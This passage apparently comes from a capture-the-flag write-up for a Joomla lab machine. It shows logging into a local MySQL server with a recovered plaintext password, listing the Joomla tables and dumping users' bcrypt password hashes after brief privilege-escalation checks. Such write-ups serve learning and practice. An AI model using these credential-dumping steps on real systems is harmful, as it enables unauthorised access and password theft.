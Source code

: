 Make a `stty size` in your own shell to know the rows and columns.

---
### Getting Hashes from MySQL

After trying some ways like checking sudoers, SUID, CRON Jobs and Capabilities i found nothing, so i remembered that i got the MySQL user & password.

Executing `netstat -nat` i see a **3306** Port open, so i will try to connect to the MySQL database:

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##'
```

```sql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
```

Inside Joomla Database there are over 70 tables but one of the most interesting ones is `sd4fg_users`

```sql
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_users                   |
+-------------------------------+
```

And inside this table there is 7 columns one of them named `password` so getting the data inside password i get the next output:

```sql
mysql> select name,username,password from sd4fg_users;
+------------+----------+--------------------------------------------------------------+
| name       | username | password                                                     |
+------------+----------+--------------------------------------------------------------+
| lewis      | lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+----------+--------------------------------------------------------------+
```

---